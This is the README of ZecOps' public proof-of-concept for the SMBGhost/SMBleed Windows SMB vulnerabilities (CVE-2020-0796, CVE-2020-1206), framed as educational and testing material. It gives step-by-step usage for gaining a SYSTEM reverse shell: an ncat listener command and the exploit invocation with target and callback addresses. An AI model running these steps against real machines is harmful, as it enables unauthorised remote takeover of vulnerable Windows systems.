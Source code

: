# CVE-2020-0796 Remote Code Execution POC

(c) 2020 ZecOps, Inc. - https://www.zecops.com - Find Attackers' Mistakes  
Remote Code Execution POC for CVE-2020-0796 / "SMBGhost"  
Expected outcome: Reverse shell with system access.  
Intended only for educational and testing in corporate environments.  
ZecOps takes no responsibility for the code, use at your own risk.  
Please contact sales@ZecOps.com if you are interested in agent-less DFIR tools for Servers, Endpoints, and Mobile Devices to detect SMBGhost and other types of attacks automatically.

## Usage

* Make sure **Python** and **ncat** are installed.

* Run `calc_target_offsets.bat` on the target computer, and adjust the offsets at the top of the `SMBleedingGhost.py` file according to the script output (also see the note below).

* Run **ncat** with the following command line arguments:

  `ncat -lvp <port>`

  Where `<port>` is the port number **ncat** will be listening on.

* Run `SMBleedingGhost.py` with the following command line arguments:

  `SMBleedingGhost.py <target_ip> <reverse_shell_ip> <reverse_shell_port>`

  Where `<target_ip>` is the IP address of the target, vulnerable computer. `<reverse_shell_ip>` and `<reverse_shell_port>` are the IP address and the port number **ncat** is listening on.

* If all goes well, **ncat** will display a shell that provides system access to the target computer.

**Note:** You might be wondering why it's necessary to run the `calc_target_offsets.bat` script on the target computer, and doesn't it defeat the whole point of the remote code execution being remote. These offsets are not random, and are the same on all Windows instances of the same Windows version. One could make the attack more universal by detecting the target Windows version and adjusting the offsets automatically, or by not relying on them altogether, but it's only a POC and we did what was simpler. We also see it as a good thing that the POC is not universal, and is not convenient for uses other than testing and education.

![demo](demo.gif)

## Target Environment

Windows 10 Versions 1903 and 1909 are affected. Unpatched Windows 10 1903 versions aren't supported due to a null dereference bug in Windows (fixed in KB4512941).

Due to the nature of the exploitation, the POC works best for targets running on a computer (or a VM) with a single logical processor. Targets with more than one logical processor running in VirtualBox should be supported as well, but the POC is less reliable in this case. Other targets might not be supported. For details, refer to our technical writeup below.

## Technical Writeup

* [SMBleedingGhost Writeup Part I: Chaining SMBleed (CVE-2020-1206) with SMBGhost](https://blog.zecops.com/vulnerabilities/smbleedingghost-writeup-chaining-smbleed-cve-2020-1206-with-smbghost/)
* [SMBleedingGhost Writeup Part II: Unauthenticated Memory Read – Preparing the Ground for an RCE](https://blog.zecops.com/vulnerabilities/smbleedingghost-writeup-part-ii-unauthenticated-memory-read-preparing-the-ground-for-an-rce/)
* [SMBleedingGhost Writeup Part III: From Remote Read (SMBleed) to RCE](https://blog.zecops.com/vulnerabilities/smbleedingghost-writeup-part-iii-from-remote-read-smbleed-to-rce/)

## References

* [Vulnerability Reproduction: CVE-2020-0796 POC - ZecOps Blog](https://blog.zecops.com/vulnerabilities/vulnerability-reproduction-cve-2020-0796-poc/)
* [CVE-2020-0796 - Microsoft Security Response Center](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0796)
* [CVE-2020-1206 - Microsoft Security Response Center](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-1206)
